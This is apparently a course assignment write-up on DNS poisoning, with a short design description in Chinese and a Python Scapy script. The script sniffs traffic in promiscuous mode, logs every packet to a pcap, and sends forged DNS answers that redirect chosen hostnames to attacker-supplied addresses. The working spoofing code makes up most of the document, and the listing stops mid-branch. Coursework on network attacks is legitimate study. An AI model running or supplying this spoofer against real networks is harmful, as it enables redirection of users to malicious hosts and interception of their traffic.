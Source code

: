 # Assignment: DNS Poisoning

<center>被巨人城墙保护的小组<center>


## 环境

OS：Ubuntu 22.04 LTS

语言：Python 3.x

依赖包：Scapy、netifaces、tcpdump等。



## DNS poison

### 设计思路

+ dnspoison从指定或默认端口嗅探数据包，可使用BPF语句对流量进行过滤。
+ 对于每一个捕获到的包，对其执行回调函数：查询它的DNS Question Record，如果请求对象是hostnames中指定的攻击对象，则创建并发送一个欺骗数据包，其中DNS Resource Record中的rdata为伪造的地址。
+ 如果没有指定hostnames文件，回调函数将对每个嗅探到的包创建一个复制数据包并发回原端口。

### 代码实现

```python
from scapy.all import *
import netifaces
import argparse

conf.sniff_promisc=1
pkts = []

def getip(iface):
	if iface in netifaces.interfaces():
		return netifaces.ifaddresses(iface)[netifaces.AF_INET][0]['addr']
			
def spoofcallback(interface,filename):
	def dnsspoof(pkt):
		# print(pkt.show())
		pkts.append(pkt)
		wrpcap("my_dnspoison.pcap", pkts)
		if (pkt.haslayer(DNSQR) and pkt[DNS].qdcount==1 and pkt[DNS].ancount==0): # DNS question record
			print(str(pkt[DNSQR].qname))
			if filename:
				pairs=dict(line.split() for line in open(filename))
				for key, value in pairs.items():
					if key in str(pkt[DNSQR].qname):
						print("==========TARGET OCCUR==========")
						redirect_to = value
						spoofed_pkt = Ether(dst=pkt[Ether].src,src=pkt[Ether].dst)/\
						IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
						UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
						DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa = 1, qr=1, an=DNSRR(rrname=pkt[DNS].qd.qname,  ttl=10, rdata=redirect_to))
						sendp(spoofed_pkt,iface=interface)	
						print('Sent:', spoofed_pkt.show())
						break;
					else:
						print("==========NOT TARGET==========")
			else:
        			redirect_to = getip(interface)
```

[^1]: [SnehaPathrose/DNSSpoofAndDetect·github](https://github.com/SnehaPathrose/DNSSpoofAndDetect/tree/master)